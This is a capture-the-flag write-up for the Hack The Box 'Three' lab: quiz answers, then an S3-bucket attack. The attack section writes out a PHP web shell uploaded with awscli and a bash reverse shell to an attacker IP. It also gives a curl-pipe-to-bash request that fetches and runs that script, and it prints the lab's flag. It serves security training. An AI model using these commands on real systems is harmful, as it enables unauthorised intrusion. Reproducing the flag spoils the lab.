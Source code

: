 # Three

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 1

## Solution

#### 1. How many TCP ports are open?

> 2

#### 2. What is the domain of the email address provided in the "Contact" section of the website?

> thetoppers.htb

#### 3. In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

> /etc/hosts

#### 4. Which sub-domain is discovered during further enumeration?

*(`echo "10.129.189.219 thetoppers.htb" | sudo tee -a /etc/hosts`)*

> s3.thetoppers.htb

*(`echo "10.129.189.219 s3.thetoppers.htb" | sudo tee -a /etc/hosts`)*

#### 5. Which service is running on the discovered sub-domain?

> Amazon S3

#### 6. Which command line utility can be used to interact with the service running on the discovered sub-domain?

> awscli

#### 7. Which command is used to set up the AWS CLI installation?

> aws configure

#### 8. What is the command used by the above utility to list all of the S3 buckets?

> aws s3 ls

#### 9. This server is configured to run files written in what web scripting language?

> PHP

#### Submit root flag

```sh
aws configure
AWS Access Key ID [****************a]: a
AWS Secret Access Key [****************a]: a
Default region name [a]: a
Default output format [a]: a
$ aws s3 ls --endpoint=http://s3.thetoppers.htb
2024-03-02 16:21:54 thetoppers.htb
$ aws s3 ls --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb
                           PRE images/
2024-03-02 16:21:54          0 .htaccess
2024-03-02 16:21:54      11952 index.php
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
$ aws s3 cp shell.php --endpoint=http://s3.thetoppers.htb s3://thetoppers.htb 
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

Next, when we visit [http://thetoppers.htb/shell.php?cmd=id](http://thetoppers.htb/shell.php?cmd=id) we see our shell is working:

![shell](./shell.jpg)

Next we can make reverse shell:

```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.15/9001 0>&1
```

And save it as `shell.sh`. Then listen on that port:

```sh
$ nc -l 9001
```

And start `python` webserver in another `Terminal` window:

```sh
$ python3 -m http.server 8000
```

We can use the `curl` utility to fetch the `bash` reverse shell file from our local host and then pipe it to bash in order to execute it:

[http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.15:8000/shell.sh|bash](http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.15:8000/shell.sh|bash)

And we have reverse shell:

```sh
www-data@three:/var/www/html$
```

And here is the flag:

```sh
www-data@three:/var/www/html$ cd ..
www-data@three:/var/www$ ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
a980d99281a28d638ac68b9bf9453c2b
```

## Final Flag

> a980d99281a28d638ac68b9bf9453c2b

*Created by [bu19akov](https://github.com/bu19akov)*